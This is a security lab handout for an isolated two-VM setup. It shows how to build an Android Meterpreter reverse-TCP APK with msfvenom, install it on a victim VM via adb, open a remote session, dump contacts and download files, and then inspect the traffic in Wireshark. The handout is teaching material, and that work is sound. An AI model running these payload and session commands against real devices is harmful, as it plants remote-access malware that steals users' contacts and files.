

# Lab 7: Developing Mobile Malware

## Set-up

Set up two VMs, keep the attacker and victim machine within the same subnet.

`````{tabbed} Attacker: Ubuntu

IP address: `10.0.2.15`


Install [Metasploit](https://www.metasploit.com/) Module


```sh
$ sudo apt install python3-dev
$ curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
$ chmod 755 msfinstall
$ ./msfinstall
```

Install `adb` to send `.apk` files to the android VM

```
$ sudo apt install adb
```

Install [WireShark](https://www.wireshark.org/) to capture the traffic between two machines:

```
$ sudo add-apt-repository ppa:wireshark-dev/stable
$ sudo apt-get install wireshark
```

`````

`````{tabbed} Victim: Android
IP address: `10.0.2.11`

Run an Android virtual machine as [what seed project requests to do](https://seedsecuritylabs.org/Labs_16.04/Mobile/). After the VM installed, add some entries in `Contacts` app (e.g. Name: KMR, Phone: 114-514-1919)

````{note}
The IP address of the Android VM can be obtained by running `Terminal Emulator` app and typing

```
$ ifconfig
```

````
`````

````{note}
The two IP addresses listed above are just examples, you need to replace the values with the actual IP addresses on your virtual machines by

```
$ ifconfig
```

in the following tasks.

Please make sure that the two VMs are configured with the same subnet.
````


## Explore Metasploits 

```
$ msfconsole
msf >  search type:payload platform:android
```

Create a reversed TCP [^ex]

```
msf > msfvenom -p android/meterpreter/reverse_tcp LHOST=10.9.0.6 LPORT=4444 -f raw -o volume/reverse_tcp.apk
```

Start a handler:

```
msf > use exploit/multi/handler
msf > set payload android/meterpreter/reverse_tcp
msf > set lhost 10.0.2.15
msf > set lport 4444
msf > exploit
```

Send the `reverse_tcp.apk` to the vicitm machine and install it:

```
$ adb connect 10.0.2.11
$ adb install reverse_tcp.apk
```

From the victim Android, we start the installed app `MainActivity`


```{warning}
No obvious response after double-clicking, but actually it is running in the backgroud.
```

Then we can see the session information from the attacker VM:


Press <kbd>Enter</kbd> and go into the `meterpreter` console.

### Basic Commands

Check if the device is rooted

```
meterpreter > check_root
```

See the current directory where you are

```
meterpreter > pwd
/data/user/0/com.metasploit.stage/files
```

Dump all contacts

```
meterpreter > dump_contacts
[*] Fetching 3 contacts into list
[*] Contacts list saved to: contacts_dump_20210527000741.txt
```

Let's check it:


````{seealso}
More commands can be found by:

```
meterpreter > help
```

Or see the [Metasploit Cheat Sheet](https://pentestmag.com/metasploit-cheat-sheet/)
````

[^ex]: https://www.hackers-arise.com/post/2018/07/06/metasploit-basics-part-13-exploiting-android-mobile-devices


## Task: steal sensitive files

For example, get the DNS configurations on the victim mobile:

```
meterpreter > cat /etc/hosts
127.0.0.1       localhost
::1             ip6-localhost
```

Download it to the attacker machine

```
meterpreter > download /etc/hosts
```


## Monitor Traffic

Launch `Wireshark` with root privilege:

```
$ sudo wireshark
```

When starting an `exploit` in [Explore Metasploits](#explore-metasploits), `Wireshark` captures the TCP traffic between the attacker and the victim. For example, here are the packets that the reversed TCP connection establishes (Note that `10.0.2.15:4444` is the malicious host):



We dump the captured traffic into an `.pcap` file, which can be opened with `wireshark`. for example:

{download}`sample.pcap`

which records all network traffic during the attack, try to distinguish which traffics are related to the attack process.